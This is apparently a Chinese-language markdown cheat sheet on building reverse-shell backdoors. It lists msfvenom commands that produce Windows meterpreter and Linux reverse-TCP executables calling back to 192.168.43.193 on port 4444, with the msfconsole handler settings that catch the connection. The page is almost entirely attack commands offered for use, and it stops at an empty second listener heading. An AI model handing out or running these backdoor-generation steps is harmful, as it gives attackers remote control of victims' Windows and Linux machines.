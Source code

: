 # 可执行脚本反弹shell

## 1.windows下exe执行文件后门  

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 x >文件路径/文件名



案例：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.193 LPORT=4444 x >/shell.exe
```

### 监听设置:

```
msfconsole



use exploit/multi/handler



set payload windows/meterpreter/reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444
exploit
```

## 2.linux下执行文件后门

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 x >文件路径/文件名



案例：msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.43.193 LPORT=4444 x >/linux_shell



需要给执行权限 chmod +x linux_shell
```

### 监听设置
